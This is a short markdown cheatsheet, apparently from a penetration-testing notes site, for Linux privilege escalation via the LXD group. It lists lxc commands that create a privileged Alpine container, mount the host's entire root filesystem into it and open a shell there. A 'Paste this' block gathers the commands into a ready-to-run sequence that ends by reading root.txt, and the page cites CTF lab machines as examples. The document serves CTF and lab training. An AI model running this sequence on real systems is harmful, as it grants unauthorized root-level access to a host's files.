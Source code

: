 ```yaml
---
title: Cheatsheet - LXD Group
categories: [Cheatsheet, Linux Privilege Escalation]
tags: [linux-priv-esc/lxd, cheatsheet/linux]
---
```


# LXD
1. Import [alpine image](https://github.com/saghul/lxd-alpine-builder)
	```
	init lxd
	lxc image import ./alpine.tar.gz --alias privesc
	```
2. Initalize/start a container from that image
	```
	lxc init privesc privesc-container -c security.privileged=true
	```
3. Add a mounted file system to the mnt directory of the container
	```
	lxc config device add privesc-container mydevice disk source=/ path=/mnt/root recursive=true
	```
4. Start container
	```
	lxc start privesc-container
	```
5. Execute the container and get an interactive shell
	```
	lxc exec privesc-container /bin/sh
	```
6. Path to /mnt for the entire target file system
	```
	cd /mnt 
	# root dir
	cd /mnt/root
	```
	
# Paste this
```
lxc image import ./alpine.tar.gz --alias privesc
lxc init privesc privesc-container -c security.privileged=true
lxc config device add privesc-container mydevice disk source=/ path=/mnt/root recursive=true
lxc start privesc-container
lxc exec privesc-container /bin/sh
cat /mnt/root/root/root.txt
```

# Some Examples:
- TryHackMe Game Zone - Privilege Escalation with LXD group
- Vulnhub INFOSEC PREP - Privilege Escalation 2 via LXD group
- [HackTheBox BrainFuck - Privilege Escalation via LXD Group](https://yufongg.github.io/posts/BrainFuck/#root---via-lxd)

